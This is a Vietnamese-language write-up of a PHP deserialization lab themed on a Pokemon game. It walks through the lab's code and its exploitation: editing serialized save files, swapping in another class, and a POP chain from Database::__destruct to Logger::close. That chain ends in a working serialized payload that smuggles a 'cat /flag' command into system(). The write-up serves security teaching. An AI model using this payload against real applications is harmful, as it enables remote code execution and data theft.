







# KIẾN TRÚC MÃ NGUỒN VÀ BẢN CHẤT DÒNG DỮ LIỆU (DATA FLOW) - LAB POKEMON

> **Mục tiêu:** Phân tích chi tiết từng hàm, từng dòng code, cách thức các file liên kết, vòng đời biến trong RAM, và cơ chế chuyển đổi dữ liệu giữa HTTP Request, Session và Object.

---

## MỤC LỤC
1. [Sơ đồ kiến trúc tổng thể & Cơ chế liên kết các file](#1-sơ-đồ-kiến-trúc-tổng-thể--cơ-chế-liên-kết-các-file)
2. [Vòng đời của một Object trong Session & Bộ nhớ RAM](#2-vòng-đời-của-một-object-trong-session--bộ-nhớ-ram)
3. [Điểm khởi đầu: Khởi tạo dữ liệu người chơi (`start.php`)](#3-điểm-khởi-đầu-khởi-tạo-dữ-liệu-người-chơi-startphp)
4. [Bộ điều phối trung tâm: Luồng xử lý Request (`index.php`)](#4-bộ-điều-phối-trung-tâm-luồng-xử-lý-request-indexphp)
5. [Hạ tầng Save/Load: Bản chất của `serialize()` và `unserialize()`](#5-hạ-tầng-saveload-bản-chất-của-serialize-và-unserialize)
6. [Phân tích chi tiết: Cơ chế gọi hàm và xử lý dữ liệu qua từng Map](#6-phân-tích-chi-tiết-cơ-chế-gọi-hàm-và-xử-lý-dữ-liệu-qua-từng-map)
   - [Map 1 & Map 2: Cơ chế chiến đấu và Attribute Tampering](#map-1--map-2-cơ-chế-chiến-đấu-và-attribute-tampering)
   - [Map 3: Tính đa hình (Polymorphism) và Class Substitution](#map-3-tính-đa-hình-polymorphism-và-class-substitution)
   - [Map 4: Nơi hội tụ của 2 chuỗi RCE (POP Chain & Duck Typing)](#map-4-nơi-hội-tụ-của-2-chuỗi-rce-pop-chain--duck-typing)
7. [Bảng tổng hợp: Ma trận các hàm, class và điểm khai thác](#7-bảng-tổng-hợp-ma-trận-các-hàm-class-và-điểm-khai-thác)

---

## 1. SƠ ĐỒ KIẾN TRÚC TỔNG THỂ & CƠ CHẾ LIÊN KẾT CÁC FILE

Để hiểu được luồng dữ liệu, trước tiên cần nhìn vào cây thư mục và cách PHP nạp các file vào bộ nhớ:

```text
web/src/
├── backend/
│   ├── index.php                 <-- ROUTER ĐIỀU PHỐI (Chuyển tiếp map1 -> map4)
│   ├── save-load.php             <-- ENTRY POINT LỖ HỔNG (Serialize & Unserialize)
│   ├── map1.php, map2.php, ...   <-- LOGIC RIÊNG TỪNG MAP
│   ├── helper/
│   │   ├── all_libs.php          <-- "CẦU NỐI TỬ HUYỆT": Nạp toàn bộ libs
│   │   ├── start.php             <-- Khởi tạo nhân vật mới
│   │   └── check_secret.php      <-- Kiểm tra flag tại Map 4
│   └── libs/
│       ├── game_config.php       <-- Chứa hằng số (chỉ số máu, damage...)
│       ├── pokemon.php           <-- Class Pokemon
│       ├── trainer.php           <-- Class Trainer & TrumCuoi
│       ├── database.php          <-- Class Database (Chứa __destruct)
│       └── utils.php             <-- Class Calculator (eval) & Logger (system)
```

### "Cầu nối tử huyệt": `backend/helper/all_libs.php`
Đây là file nguy hiểm nhất trong kiến trúc ứng dụng. Hãy xem code:

```php
// web/src/backend/helper/all_libs.php
$libs_path = $_SERVER["DOCUMENT_ROOT"]. '/backend/libs/*.php';
foreach (glob($libs_path) as $filename) {
    include $filename;
}
```

#### Cơ chế hoạt động:
1. Hàm `glob()` quét toàn bộ các file `.php` trong thư mục `backend/libs/`.
2. Vòng lặp `foreach` gọi `include` từng file: `game_config.php`, `pokemon.php`, `trainer.php`, `database.php`, `utils.php`.
3. **Ý nghĩa bảo mật cực kỳ quan trọng:** Trong PHP, hàm `unserialize()` **chỉ có thể** tái tạo một Object nếu Class của Object đó đã được nạp (khai báo) vào bộ nhớ. Nếu một class chưa được `include`, PHP sẽ tạo ra một đối tượng `__PHP_Incomplete_Class` vô dụng. 
$\rightarrow$ Vì `all_libs.php` include **tất cả** các file trong `libs/`, nó đã vô tình **mở toang cánh cửa cho phép Hacker khởi tạo bất kỳ class nào** có trong thư mục `libs/` (`Database`, `Logger`, `Calculator`, `TrumCuoi`...) mà không bị lỗi thiếu Class!

---

## 2. VÒNG ĐỜI CỦA MỘT OBJECT TRONG SESSION & BỘ NHỚ RAM

Khi một request HTTP gửi đến PHP:


---

## 3. ĐIỂM KHỞI ĐẦU: KHỞI TẠO DỮ LIỆU NGƯỜI CHƠI (`start.php`)

Khi người chơi đặt tên và chọn Pokemon ban đầu, form gửi POST đến `web/src/backend/helper/start.php`:

```php
include("all_libs.php");
session_start();

if (isset($_POST["pokemon_name"]) && isset($_POST["pokemon_type"]))
    $_SESSION["trainer"] = new Trainer($_SESSION["username"], $_POST["pokemon_name"], $_POST["pokemon_type"]);
    
die(header("Location: ../../frontend/html/map1.html"));
```

### Dữ liệu được xử lý như thế nào trong RAM?
Khi `new Trainer(...)` được gọi:
1. Hàm `Trainer::__construct()` ([trainer.php](file:///e:/Learn_pentest_2026_CBJS/PHP_deserization/g1IGWmqTT2ea7j40ig9c_pokemon/web/src/backend/libs/trainer.php#L11-L17)) chạy:
   ```php
   $this->name = $name;
   $health = rand(GlobalConfig::BASE_HEALTH_MIN, GlobalConfig::BASE_HEALTH_MAX); // 150 - 200
   $damage = rand(GlobalConfig::BASE_DMG_MIN, GlobalConfig::BASE_DMG_MAX);       // 20 - 50
   $this->pokemon = new Pokemon($health, $damage, $pokemon_name, $pokemon_type);
   ```
2. `Pokemon::__construct()` ([pokemon.php](file:///e:/Learn_pentest_2026_CBJS/PHP_deserization/g1IGWmqTT2ea7j40ig9c_pokemon/web/src/backend/libs/pokemon.php#L13-L19)) chạy để gán các giá trị:
   ```php
   $this->name = $name;
   $this->type = $type;
   $this->health = $health;
   $this->damage = $damage;
   ```
3. **Cấu trúc cây đối tượng (Object Tree) trong RAM:**
   ```text
   $_SESSION["trainer"] (Instance của Trainer)
   │
   ├── $name = "thuongng"
   └── $pokemon (Instance của Pokemon)
       ├── $name = "pikachu"
       ├── $type = "pikachu"
       ├── $health = 180 (int)
       └── $damage = 35 (int)
   ```

---

## 4. BỘ ĐIỀU PHỐI TRUNG TÂM: LUỒNG XỬ LÝ REQUEST (`index.php`)

Toàn bộ các hành động chơi game (đánh quái, đánh boss, chạy trốn) đều gửi về:
`POST /backend/index.php?level=mapX` kèm body `action=...`

Hãy xem [backend/index.php](file:///e:/Learn_pentest_2026_CBJS/PHP_deserization/g1IGWmqTT2ea7j40ig9c_pokemon/web/src/backend/index.php#L14-L37):

```php
if (isset($_GET["level"]) && isset($_POST["action"])) {
    $level = $_GET["level"];
    $action = $_POST["action"];

    switch ($level) {
        case 'map1': include('map1.php'); break;
        case 'map2': include('map2.php'); break;
        case 'map3': include('map3.php'); break;
        case 'map4': include('map4.php'); break;
        case 'map5': break;
    }
}
```

### Cơ chế kế thừa biến (Variable Scope Inheritance):
Trong PHP, khi bạn `include('map2.php')` bên trong một block code của `index.php`:
* File `map2.php` **không tạo ra scope mới**.
* Nó thừa hưởng trực tiếp toàn bộ các biến cục bộ đang tồn tại trong `index.php`: biến `$level`, biến `$action`, và siêu toàn cục `$_SESSION`.
* Đó là lý do trong `map2.php`, code viết trực tiếp `if ($action == "fight")` mà không cần khai báo lại `$action`.

---

## 5. HẠ TẦNG SAVE/LOAD: BẢN CHẤT CỦA `serialize()` VÀ `unserialize()`

Mở file [backend/save-load.php](file:///e:/Learn_pentest_2026_CBJS/PHP_deserization/g1IGWmqTT2ea7j40ig9c_pokemon/web/src/backend/save-load.php):

### A. Quá trình SAVE (`serialize`):
```php
if ($_GET["action"] == "save") {
    $message = serialize($_SESSION["trainer"]);
    echo $message;
}
```
1. PHP quét cấu trúc đối tượng `$_SESSION["trainer"]` trong RAM.
2. Nó trích xuất toàn bộ **tên thuộc tính** và **giá trị thuộc tính**. Lưu ý: Logic code (các function) **bị bỏ qua hoàn toàn**.
3. Kết quả là chuỗi chuẩn hóa:
   ```text
   O:7:"Trainer":2:{s:4:"name";s:8:"thuongng";s:7:"pokemon";O:7:"Pokemon":4:{s:4:"name";s:7:"pikachu";s:4:"type";s:7:"pikachu";s:6:"health";i:180;s:6:"damage";i:35;}}
   ```
   * `O:7:"Trainer":2`: Đối tượng thuộc lớp `Trainer` (tên dài 7 ký tự), có 2 thuộc tính.
   * `s:4:"name";s:8:"thuongng"`: Thuộc tính chuỗi `name` dài 4 ký tự, có giá trị chuỗi dài 8 ký tự `"thuongng"`.
   * `s:7:"pokemon";O:7:"Pokemon":4`: Thuộc tính `pokemon` chứa một đối tượng lồng nhau thuộc lớp `Pokemon` với 4 thuộc tính.

### B. Quá trình LOAD (`unserialize`):
```php
else if ($_GET["action"] == "load") {
    $data = file_get_contents($_FILES["data"]["tmp_name"]);
    $trainer = @unserialize($data);
    $_SESSION["trainer"] = $trainer;
}
```
1. Client upload file bất kỳ lên. Server lấy chuỗi thô từ file qua `file_get_contents`.
2. Gọi `@unserialize($data)`:
   - **Bước 1 (Đọc định danh):** Parser đọc chuỗi `O:<len>:"<ClassName>"`.
   - **Bước 2 (Tìm kiếm Class):** PHP tra cứu trong bảng danh sách Class đã nạp trong RAM xem có Class `<ClassName>` hay không. (Nhờ có `all_libs.php`, mọi class trong `libs/` đều tồn tại).
   - **Bước 3 (Cấp phát RAM):** PHP tạo một vùng nhớ cho đối tượng rỗng thuộc Class đó. **QUAN TRỌNG: Hàm `__construct()` HOÀN TOÀN KHÔNG ĐƯỢC GỌI.**
   - **Bước 4 (Bơm dữ liệu):** PHP đọc các cặp key/value từ chuỗi và gán trực tiếp vào các thuộc tính của đối tượng.
   - **Bước 5 (Kích hoạt sự kiện):** Nếu Class có khai báo Magic Method `__wakeup()`, PHP sẽ tự động gọi hàm đó.
3. Gán đối tượng vừa khôi phục vào `$_SESSION["trainer"]`.

---

## 6. PHÂN TÍCH CHI TIẾT: CƠ CHẾ GỌI HÀM VÀ XỬ LÝ DỮ LIỆU QUA TỪNG MAP

---

### MAP 1 & MAP 2: Cơ chế chiến đấu và Attribute Tampering

#### Luồng dữ liệu khi đánh nhau (`action == "fight"`):
Mở [backend/map2.php](file:///e:/Learn_pentest_2026_CBJS/PHP_deserization/g1IGWmqTT2ea7j40ig9c_pokemon/web/src/backend/map2.php#L21-L38):

```php
else if ($action == "fight") {
    if (!isset($_SESSION["enemy"])) {
        echo json_encode([]);
        die();
    }
    // GỌI HÀM FIGHT CỦA TRAINER
    $result = $_SESSION["trainer"]->fight($_SESSION["enemy"]);
    
    // KIỂM TRA ĐIỀU KIỆN TRẢ FLAG
    if ($_SESSION["trainer"]->checkAlive()) {
        if ($_SESSION["enemy"]->damage >= 100) {
            header("Flag: " . getenv("BOSS1_FLAG"));
        }
    }
    $_SESSION["enemy"] = null;
    echo json_encode($result);
    die();
}
```

#### Đi sâu vào bên trong hàm `Trainer::fight()` ([trainer.php](file:///e:/Learn_pentest_2026_CBJS/PHP_deserization/g1IGWmqTT2ea7j40ig9c_pokemon/web/src/backend/libs/trainer.php#L26-L37)):
```php
public function fight(Pokemon $wild_pokemon)
{
    $result = array();
    while ($this->pokemon->health > 0 && $wild_pokemon->health > 0) {
        // Cả 2 trừ máu của nhau cùng lúc
        $this->pokemon->health = $this->pokemon->health - $wild_pokemon->damage;
        $wild_pokemon->health = $wild_pokemon->health - $this->pokemon->damage;
        array_push($result, array($this->pokemon->health, $wild_pokemon->health));
    }
    $this->pokemon->levelUp();
    return $result;
}
```

#### Đi sâu vào hàm `Trainer::checkAlive()` ([trainer.php](file:///e:/Learn_pentest_2026_CBJS/PHP_deserization/g1IGWmqTT2ea7j40ig9c_pokemon/web/src/backend/libs/trainer.php#L47-L53)):
```php
public function checkAlive()
{
    if ($this->pokemon->health < 0) {
        return false;
    }
    return true; // Nếu máu >= 0 thì coi là còn sống
}
```

#### Dữ liệu biến đổi ra sao khi khai thác?
* Khi đấu Boss Map 2: Boss có `health = 10000`, `damage = 300`.
* Nếu người chơi bình thường: Máu của bạn là 180. Vòng lặp round 1:
  - Máu của bạn: $180 - 300 = -120$
  - Máu Boss: $10000 - 35 = 9965$
  - `checkAlive()` thấy $-120 < 0$ $\rightarrow$ `false` $\rightarrow$ Thua.
* **Khi Hacker can thiệp file save:**
  - Sửa chuỗi thành: `s:6:"health";i:99999999;s:6:"damage";i:99999999;`
  - Vòng lặp round 1:
    - Máu của bạn: $99999999 - 300 = 99999699$
    - Máu Boss: $10000 - 99999999 = -99989999$
  - Vì máu Boss $< 0$, vòng `while` lập tức kết thúc.
  - `checkAlive()` thấy máu bạn $> 0$ $\rightarrow$ trả về `true`.
  - Kiểm tra `$_SESSION["enemy"]->damage >= 100` (damage boss là 300 $\ge 100$) $\rightarrow$ `true`.
  - Server kích hoạt dòng lệnh: `header("Flag: " . getenv("BOSS1_FLAG"));`
  $\rightarrow$ **Flag xuất hiện ngay trong Response Header của HTTP!**

---

### MAP 3: Tính đa hình (Polymorphism) và Class Substitution

#### Bẫy logic trong [backend/map3.php](file:///e:/Learn_pentest_2026_CBJS/PHP_deserization/g1IGWmqTT2ea7j40ig9c_pokemon/web/src/backend/map3.php#L36-L54):
```php
else if ($action == "fight_boss") {
    // DEV TỰ TAY RESET MÁU VÀ DAMAGE CỦA BẠN VỀ 1 TRƯỚC KHI ĐÁNH!
    $_SESSION["trainer"]->pokemon->health = 1;
    $_SESSION["trainer"]->pokemon->damage = 1;
    
    // TIẾN HÀNH ĐÁNH NHAU
    $result = $_SESSION["trainer"]->fight($_SESSION["boss"]);
    
    if ($_SESSION["trainer"]->checkAlive()) {
        header("Flag: " . getenv("BOSS2_FLAG"));
    }
}
```
* Bất kể file save của bạn có set máu bao nhiêu, 2 dòng code trên ép máu và damage về `1`.
* Khi vào hàm `Trainer::fight()`: Máu của bạn là 1, Boss đánh bạn 300 damage $\rightarrow$ Bạn chết ngay lập tức.

#### Class ẩn trong [backend/libs/trainer.php](file:///e:/Learn_pentest_2026_CBJS/PHP_deserization/g1IGWmqTT2ea7j40ig9c_pokemon/web/src/backend/libs/trainer.php#L79-L88):
```php
class TrumCuoi extends Trainer
{
    public function fight(Pokemon $wild_pokemon)
    {
        return Array(Array(1, 0)); // Ghi đè phương thức: Ép máu quái về 0 ngay lập tức!
    }
}
```

#### Cơ chế điều phối phương thức (Method Dispatching) trong PHP:
Khi đoạn code gọi:
```php
$result = $_SESSION["trainer"]->fight($_SESSION["boss"]);
```
1. PHP không ép kiểu (Type Casting) biến `$_SESSION["trainer"]`. Nó kiểm tra trong bảng phương thức của Class thực tế mà Object đang nắm giữ.
2. Nếu đối tượng là `Trainer`: PHP gọi `Trainer::fight()` (có vòng lặp while trừ máu).
3. Nếu đối tượng là `TrumCuoi`: PHP gọi `TrumCuoi::fight()`:
   - Hàm này **hoàn toàn không có vòng lặp while**.
   - Nó cũng **không trừ máu** của `$_SESSION["trainer"]->pokemon->health` (máu của bạn vẫn giữ nguyên là `1`).
   - Nó lập tức trả về `[[1, 0]]` (thể hiện sau round 1: máu bạn là 1, máu boss là 0).
4. Dòng code tiếp theo chạy:
   ```php
   if ($_SESSION["trainer"]->checkAlive())
   ```
   Vì `TrumCuoi` kế thừa từ `Trainer`, nó sở hữu hàm `checkAlive()`. Máu bạn lúc này là $1 \ge 0$, hàm trả về `true`!
5. Điều kiện thỏa mãn $\rightarrow$ Server gửi `header("Flag: " . getenv("BOSS2_FLAG"));`.

---

### GIẢI MÃ 3 ĐIỂM "LÚ" LỚN NHẤT VỀ CODE VÀ LOGIC OOP

#### ❓ Câu hỏi 1: Tại sao lúc thì `$_SESSION["boss"] = $wild_pokemon`, lúc thì `$_SESSION["boss"] = null`?
* **Lý do gán `$_SESSION["boss"] = $wild_pokemon` (Lúc vào phòng Boss):**
  * Giao thức web HTTP là **Stateless** (Bất định trạng thái) — mỗi lần bạn click chuột gửi request là một lần PHP khởi động, chạy xong rồi tắt ngay, không nhớ gì về request trước.
  * Khi bạn bước vào phòng Boss (Request 1: `action=boss`), server sinh ra con Boss với máu 10,000. Server **buộc phải cất con Boss vào `$_SESSION["boss"]`** để RAM máy chủ nhớ con Boss này.
  * Nếu không lưu vào Session, thì khi bạn bấm nút "Đánh" (Request 2: `action=fight_boss`), PHP sẽ khởi động một trang mới và **hoàn toàn không biết bạn đang đánh với con Boss nào**!
* **Lý do gán `$_SESSION["boss"] = null` (Lúc đánh xong):**
  * Đây là thao tác **Dọn dẹp / Reset phiên đấu (Cleanup)**.
  * Sau khi trận đấu phân xử xong, con Boss coi như đã bị hạ gục. Server gán `= null` để xóa con Boss đó đi.
  * **Nếu không gán `null`:** Con Boss sẽ nằm lì mãi trong Session. Người chơi chỉ cần nhấn F5 hoặc gửi lặp lại request `action=fight_boss` là server cứ lôi con Boss cũ ra đánh và trao Flag liên tục mà không bắt người chơi phải đi lại vào phòng Boss!

#### ❓ Câu hỏi 2: Tại sao lại code mảng 2 chiều `array(array(1, 0))` và `array_push($result, array(...))`?
* Trận đấu giữa 2 Pokemon diễn ra qua nhiều hiệp (rounds).
* Mỗi hiệp cần lưu lại 1 cặp máu: `[Máu của ta, Máu của quái]`.
  * Hiệp 1: Ta còn 85, Quái còn 30  $\rightarrow$ Cặp: `array(85, 30)`
  * Hiệp 2: Ta còn 70, Quái còn 10  $\rightarrow$ Cặp: `array(70, 10)`
  * Hiệp 3: Ta còn 55, Quái còn -10 $\rightarrow$ Cặp: `array(55, -10)`
* Lệnh `array_push($result, array(...))` sẽ nhồi từng cặp này vào mảng lớn `$result`. Kết quả trả về cho JavaScript dưới dạng JSON:
  ```json
  [ [85, 30], [70, 10], [55, -10] ]
  ```
* **Frontend JavaScript (`battle.js`) làm gì với mảng này?** Nó chạy vòng lặp `for` đọc từng hiệp để làm thanh máu tụt dần từng đợt, tạo hiệu ứng hoạt ảnh đánh nhau đẹp mắt cho người chơi!
* **Tại sao `TrumCuoi` lại trả về `array(array(1, 0))`?**
  * Dạng JSON tương ứng là: `[ [1, 0] ]` (Mảng 2 chiều chỉ có đúng 1 hiệp duy nhất!).
  * Nó nói với Frontend: *"Trận này chỉ có 1 hiệp: Ta còn 1 máu, Boss còn 0 máu (One-round KO)"*.
  * Frontend nhận được mảng đúng chuẩn định dạng sẽ không bị lỗi code, tụt máu boss về 0 và hiện bảng "You Win".

#### ❓ Câu hỏi 3: `TrumCuoi::fight()` không trừ máu Boss, tại sao Server vẫn coi là "Đánh thắng Boss"?
* **ĐÂY CHÍNH LÀ ĐỈNH CAO CỦA LỖ HỔNG GIẢ ĐỊNH LOGIC (Insecure Assumption):**
* Nhận định của bạn hoàn toàn chính xác: **Ở Map 3, thực chất chúng ta KHÔNG HỀ ĐÁNH NHAU VỚI QUÁI, mà BỎ QUA HOÀN TOÀN QUY TRÌNH để đi thẳng tới `checkAlive()` và tự động WIN!**

Hãy nhìn kỹ chuỗi 3 bước diễn ra liên tiếp trong [map3.php](file:///e:/Learn_pentest_2026_CBJS/PHP_deserization/g1IGWmqTT2ea7j40ig9c_pokemon/web/src/backend/map3.php#L54-L70):



1. **Bước 1 (Gán máu):** 
   Trước khi đánh, server ép máu của ta: `$_SESSION["trainer"]->pokemon->health = 1;`. Lúc này trong RAM, biến `health` của ta bằng `1`.
2. **Bước 2 (Bỏ qua quy trình đấm nhau):**
   Server gọi hàm `fight()`. Do ta đã đổi Class sang `TrumCuoi`, hàm `TrumCuoi::fight()` được gọi. Hàm này **hoàn toàn không có vòng lặp `while`**, không có dòng code nào trừ máu của ta. Hàm kết thúc ngay lập tức mà **không tốn giọt máu nào**.
3. **Bước 3 (Nhảy thẳng đến `checkAlive()`):**
   Server chạy dòng code tiếp theo: `if ($_SESSION["trainer"]->checkAlive())`.
   * Hàm `checkAlive()` chỉ kiểm tra: `$this->pokemon->health < 0`?
   * Máu của ta trong RAM lúc này **vẫn nguyên vẹn là `1`** (chính là con số 1 mà Boss đã gán cho ta ở Bước 1).
   * Vì $1 \ge 0$, hàm trả về `true` (Còn sống!).
4. **Bước 4 (Nhận cờ):**
   * Server có một giả định ngây thơ: *"Chỉ khi đánh thắng quái thì người chơi mới sống sót ra khỏi hàm `fight()`"*.
   * Server không hề kiểm tra máu của Boss! Thấy ta còn sống $\rightarrow$ Server tưởng ta đã hạ gục Boss sau trận đấu $\rightarrow$ Tự động nhả Cờ `BOSS2_FLAG`!

---

### MAP 4: Nơi hội tụ của 2 chuỗi RCE (POP Chain & Duck Typing)

Ở Map 4, file [check_secret.php](file:///e:/Learn_pentest_2026_CBJS/PHP_deserization/g1IGWmqTT2ea7j40ig9c_pokemon/web/src/backend/helper/check_secret.php) kiểm tra bí mật:
```php
$flag = file_get_contents("/flag");
if (isset($_GET["secret"])) {
    if ($flag === $_GET["secret"])
        die(header("Location: ../../frontend/html/map5.html"));
}
```
Nhiệm vụ của Pentester: Tìm cách đọc nội dung `/flag` trên server.

---

#### 💥 CHUỖI 1: POP CHAIN KINH ĐIỂN QUA MAGIC METHOD `__destruct()`

Hãy xem sự liên kết giữa 2 class dường như không liên quan: `Database` và `Logger`.

##### 1. Class `Database` ([database.php](file:///e:/Learn_pentest_2026_CBJS/PHP_deserization/g1IGWmqTT2ea7j40ig9c_pokemon/web/src/backend/libs/database.php#L5-L43)):
```php
class Database {
    public $conn;
    public function __construct() {
        $this->conn = new mysqli("db","admin","password","myDB");
    }
    ...
    // MAGIC METHOD ĐƯỢC PHP GỌI TỰ ĐỘNG KHI ĐỐI TƯỢNG BỊ HỦY HOẶC SCRIPT KẾT THÚC
    public function __destruct() {
        $this->conn->close();
    }
}
```
Lập trình viên viết hàm `__destruct()` với mục đích tốt: Khi trang PHP chạy xong thì đóng kết nối database (`$this->conn->close()`). Nhưng dev đã mắc sai lầm là tin tưởng rằng `$this->conn` sẽ luôn luôn là đối tượng `mysqli`!

##### 2. Class `Logger` ([utils.php](file:///e:/Learn_pentest_2026_CBJS/PHP_deserization/g1IGWmqTT2ea7j40ig9c_pokemon/web/src/backend/libs/utils.php#L17-L32)):
```php
class Logger {
    public $filepath;
    public function __construct($filepath) {
        $this->filepath = $filepath;    
    }
    public function log($data) { ... }
    
    // HÀM CÓ CÙNG TÊN "close()" NHƯNG LẠI THỰC THI LỆNH HỆ ĐIỀU HÀNH!
    public function close() {
        system("rm " . $this->filepath);
    }
}
```

##### 3. Cơ chế kích hoạt POP Chain từng bước:


* **Bước 1:** Chuẩn bị chuỗi serialized lồng nhau:
  ```php
  $logger = new Logger("dummy; cat /flag > /var/www/html/frontend/materials/flag.txt");
  $db = new Database();
  $db->conn = $logger; // Thay thế connection bằng Logger!
  echo serialize($db);
  ```
  Chuỗi kết quả:
  ```text
  O:8:"Database":1:{s:4:"conn";O:6:"Logger":1:{s:8:"filepath";s:58:"dummy; cat /flag > /var/www/html/frontend/materials/flag.txt";}}
  ```
* **Bước 2:** Hacker upload chuỗi này lên [save-load.php?action=load](file:///e:/Learn_pentest_2026_CBJS/PHP_deserization/g1IGWmqTT2ea7j40ig9c_pokemon/web/src/backend/save-load.php#L25).
* **Bước 3:** `unserialize($data)` lắp ráp object `Database` và nhét object `Logger` vào bên trong biến `$conn`.
* **Bước 4 (Thời điểm bùng nổ):** File `save-load.php` chạy đến dòng 36 `echo "Load successfully";` và kết thúc.
* **Bước 5:** PHP giải phóng bộ nhớ (Request Cleanup), kích hoạt `Database::__destruct()`.
* **Bước 6:** `Database::__destruct()` thực thi lệnh `$this->conn->close()`.
* **Bước 7:** PHP thấy `$this->conn` là một `Logger`, nên nó nhảy vào thực thi `Logger::close()`.
* **Bước 8:** `Logger::close()` gọi hàm `system("rm dummy; cat /flag > /var/www/html/frontend/materials/flag.txt")`.
* **Bước 9:** Lệnh bash thực thi trong container, chép nội dung `/flag` vào file web accessible. Hacker chỉ việc truy cập `http://localhost:15001/frontend/materials/flag.txt` để lấy key!

---

